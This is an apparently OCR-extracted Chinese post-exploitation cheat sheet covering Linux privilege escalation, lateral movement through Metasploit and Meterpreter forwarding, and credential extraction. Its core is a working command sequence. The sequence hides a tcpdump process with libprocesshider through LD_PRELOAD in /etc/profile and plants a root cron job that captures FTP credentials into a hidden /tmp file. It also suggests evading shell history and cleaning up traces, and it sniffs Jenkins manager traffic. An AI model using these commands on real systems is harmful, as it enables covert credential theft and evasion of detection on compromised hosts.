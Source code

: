	- https://github.com/Scotoma8/linuxprivchecker/blob/master/linuxprivchecker.py

- Linux-EXP

	- https://github.com/SecWiki/linux-kernel-exploits

### 横向移动

- 转发

	- dnscat2: listen 127.0.0.1:9999 <target_IP>:22
	- Metasploit: post/windows/manage/autoroute
	- Metasploit Socks Proxy + Proxychains: use auxiliary/server/socks4a
	- Meterpreter: portfwd add –l 3389 –p 3389 –r <target_IP>
	- VPN over SSH

- 通过普通用户权限隐形记录SSH登录密码

### 账户密码提取

- mimipenguin(CVE-2018-20781)
- 本地密码嗅探

	- 务必在高权限(root/system/administrator)下进行，挑个好时段，耐心等待，抓完就关，不建议在流量非常大的端口上进行这种嗅探操作
	- 隐藏tcpdump进程

		- libprocesshider

			- 利用 LD_PRELOAD 来劫持系统函数，适用于CentOS 5.x，6.x

				- 用完之后删掉对应的环境变量和so之后重启服务器即可

					- static const char* process_to_filter = "tcpdump";

	- make
mv libprocesshider.so /usr/local/lib
echo "export LD_PRELOAD=/usr/local/lib/libprocesshider.so" >> /etc/profile
source /etc/profile
crontab -l
cat /var/spool/cron/root
echo '*/10 * * * * /usr/sbin/tcpdump -i eth0 -s 0 -A -vv dst host x.x.x.x and port 21 -w /tmp/.Sys_Cache.pcap' >> /var/spool/cron/root
ls -la /tmp/
sed -i "/tcpdump/d" /var/spool/cron/root
crontab -l
ps -ef | grep "tcpdump" | grep -v "grep"
	- # export HISTCONTROL=ignorespace      养成习惯,带空格敲命令,只对当前shell进程有效,记得把后续要执行的所有命令前都带个空格,避免记录到命令历史
# sed -i "/libprocesshider/d" /etc/profile
# rm -f /usr/local/lib/libprocesshider.so //再干掉tcpdump进程
	- 抓取Jenkins

		- GET /manager/html
Host: x.x.x.x:8080
		- # tcpdump -i eth0 -s 0 -A -vv dst host 192.168.159.6 and port 8080 -w /tmp/.WebCache.pcap
